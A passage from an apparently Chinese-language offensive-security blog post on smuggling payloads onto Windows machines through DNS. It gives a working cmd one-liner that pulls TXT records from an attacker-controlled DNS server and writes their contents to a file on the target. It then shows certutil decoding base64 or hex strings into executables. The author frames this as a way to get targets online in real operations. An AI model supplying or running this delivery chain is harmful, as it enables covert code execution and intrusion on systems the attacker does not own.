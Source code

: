     for {%% | %}<variable> in (<set>) do <command> [<commandlineoptions>]  
    

具体可以查看

for | Microsoft Docs

https://docs.microsoft.com/en-us/windows-server/administration/windows-
commands/for

经过两天的挣扎制作出来的命令

    
    
    cmd /v:on /Q /c "set a= && set b= && for /f "tokens=*" %i in ('nslookup -qt^=TXT www.mydomain.com 192.168.31.88 ^| findstr "exec"') do (set a=%i && set b=!b!!a:~5,-2!) && set c=!a:~-6,-2! && if "eofs" == "!c:~0,-1!" echo !b:~1,-4!" > ttt.txt  
    

上面这个指令可以实现写入任意你想写入的字符到 ttt.txt ，当然这离不开我们自己的DNS服务器端的配置

>
> 说实话，如果你真的想在实战中使用本文介绍的方法，你就好好去看看上面的这段命令，看不明白可以微信联系我或者公众号私信我，不然你直接拿过来用肯定会骂我的，不过放心，后期我肯定会出一个脚本，直接生成，让大家不用再写

到目前来说，我们已经可以实现将脚本类的文件仅仅通过一个DNS请求写入到目标系统并且直接执行，所以说你要是擅长 bat，vbs等等脚本类东西你就可以直接上线了

但是我们的目的可不仅仅就是传递一个文本，我们要传递二进制可执行文件！

### 编码转换——certutil

`certutil` 这是个好东西

详细使用方法参考

certutil | Microsoft Docs

https://docs.microsoft.com/en-us/windows-server/administration/windows-
commands/certutil

  * 它可以实现特定格式的base64编码字符串的转换，将base64编码的字符串直接转换为二进制文件

  * 也可以将特定格式的16进制的字符串直接转换为二进制文件

这在Windows 中多命令里就算是宝藏了，不然用 cmd 命令实现 base64 解密得累死，当然了，这里推荐一个工具网站，可以把部分 c
语言逻辑的代码转为 bat 格式或者bash格式，但不要有特别大的期待

Batsh - A language that compiles to Bash and Windows Batch

![](https://gitee.com/fuli009/images/raw/master/public/20221214112013.png)

我们分别将 `whoami.exe` 转换为 `certutil` 能接受的16进制和base64字符格式

![](https://gitee.com/fuli009/images/raw/master/public/20221214112014.png)

base64:

![](https://gitee.com/fuli009/images/raw/master/public/20221214112016.png)

![](https://gitee.com/fuli009/images/raw/master/public/20221214112018.png)
